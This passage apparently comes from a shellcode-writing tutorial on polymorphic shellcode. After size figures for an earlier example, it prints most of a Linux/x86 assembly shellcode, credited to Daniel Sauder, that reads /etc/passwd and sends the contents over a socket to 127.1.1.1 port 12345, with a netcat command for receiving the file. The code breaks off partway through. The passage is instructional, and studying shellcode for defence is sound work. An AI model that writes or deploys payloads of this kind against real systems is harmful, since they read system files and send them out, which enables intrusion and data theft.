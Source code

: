 Original Shellcode : **36 bytes**

Polymorphic Shellcode :	**29 Bytes (7 bytes less than the original) - ~19.45% decrease**

### #4 - Linux/x86 - reads /etc/passwd and sends the content to 127.1.1.1 port 12345 - 111 bytes
Lets create polymorphic shellcode for one more - for fun :D. This one reads the file `/etc/passwd` and sends the contents to localhost port 12345. The original shellcode can be found [here](http://shell-storm.org/shellcode/files/shellcode-861.php)
```c
/*
; Author: Daniel Sauder
; Website: http://govolution.wordpress.com/about
; License http://creativecommons.org/licenses/by-sa/3.0/

; Shellcode reads /etc/passwd and sends the content to 127.1.1.1 port 12345. 
; The file can be recieved using netcat:
; $ nc -l 127.1.1.1 12345

section .text

global _start

_start:
    ; socket
    push BYTE 0x66    ; socketcall 102
    pop eax
    xor ebx, ebx 
    inc ebx 
    xor edx, edx
    push edx 
    push BYTE 0x1
    push BYTE 0x2
    mov ecx, esp
    int 0x80
    mov esi, eax

    ; connect
    push BYTE 0x66 
    pop eax
    inc ebx
    push DWORD 0x0101017f  ;127.1.1.1
    push WORD 0x3930  ; Port 12345
    push WORD bx
    mov ecx, esp
    push BYTE 16
    push ecx
    push esi
    mov ecx, esp
    inc ebx
    int 0x80

    ; dup2
    mov esi, eax
    push BYTE 0x1
    pop ecx
    mov BYTE al, 0x3F
    int 0x80

    ;read the file
    jmp short call_shellcode

shellcode:
    push 0x5
```